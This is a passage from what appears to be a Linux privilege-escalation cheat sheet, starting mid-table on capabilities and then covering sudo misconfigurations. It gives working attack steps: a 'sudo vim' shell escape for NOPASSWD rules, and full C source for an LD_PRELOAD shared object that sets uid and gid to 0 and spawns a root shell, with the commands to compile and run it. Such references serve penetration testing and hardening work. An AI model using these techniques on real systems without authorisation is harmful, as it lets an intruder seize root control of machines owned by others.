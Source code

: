 | CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |

## SUDO

Tool: [Sudo Exploitation - SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)

A tool to identify and exploit sudo rules' misconfigurations and vulnerabilities(CVEs) within sudo

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`
